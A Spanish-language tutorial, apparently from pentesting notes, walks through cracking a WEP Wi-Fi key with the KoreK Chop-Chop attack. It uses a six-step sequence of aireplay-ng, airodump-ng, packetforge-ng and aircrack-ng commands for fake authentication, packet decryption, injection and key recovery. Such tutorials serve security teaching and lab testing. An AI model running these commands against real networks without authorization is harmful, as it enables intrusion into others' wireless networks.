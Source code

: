 # Cracking WEP utilizando el Ataque Korek Chopchop

El **ataque Chop-Chop** es un método utilizado para descifrar paquetes cifrados en redes que usan el protocolo WEP. Este ataque explota vulnerabilidades en la forma en que WEP maneja la verificación de integridad de paquetes. Permite descifrar un paquete capturado, reutilizarlo y generar tráfico en la red, recolectando suficientes IVs (vectores de inicialización) para descifrar la clave WEP.

***

#### **Paso 1: Asociarse con el punto de acceso**

Realiza una falsa autenticación con el punto de acceso para establecer comunicación con él:

```bash
aireplay-ng -1 0 -a 00:11:22:33:44:55 -h 66:77:88:99:AA:BB wlan0
```

***

#### **Paso 2: Capturar un paquete**

Usa `airodump-ng` para capturar tráfico de la red objetivo:

```bash
airodump-ng --bssid 00:11:22:33:44:55 --channel 6 -w wep_test wlan0
```

***

#### **Paso 3: Ejecutar el ataque Chop-Chop**

Descifra un paquete capturado usando:

```bash
aireplay-ng -4 -b 00:11:22:33:44:55 -h 66:77:88:99:AA:BB wlan0
```

Se genera un archivo cap.

***

#### **Paso 4: Inyección de paquetes**

1.  Crea un paquete modificado:

    ```bash
    packetforge-ng -0 -a 00:11:22:33:44:55 -h 66:77:88:99:AA:BB -k 255.255.255.255 -l 255.255.255.255 -y replay_dec-123456.cap -w inject_packet
    ```

* **`-k <IP_destino>`**: La dirección IP de destino del paquete que estás creando. Se usa `255.255.255.255` para difundirlo a toda la red (dirección de broadcast).
* **`-l <IP_origen>`**: La dirección IP de origen del paquete. También se puede usar `255.255.255.255` para broadcast.

2. Inyecta el paquete modificado:

```bash
aireplay-ng -2 -r inject_packet wlan0mon
```

***

#### **Paso 5: Recolectar IVs**

Continúa recolectando tráfico hasta obtener suficientes IVs:

```bash
airodump-ng --bssid 00:11:22:33:44:55 --channel 6 -w wep_test wlan0mon
```

***

#### **Paso 6: Descifrar la clave WEP**

Descifra la clave WEP usando los IVs recolectados:

```bash
aircrack-ng -b 00:11:22:33:44:55 wep_test.cap
```

***

Si has recolectado suficientes IVs, se mostrará la clave WEP descifrada.

También existe otra forma de hacerlo.

[https://www.aircrack-ng.org/doku.php?id=es:korek\_chopchop](https://www.aircrack-ng.org/doku.php?id=es:korek_chopchop)

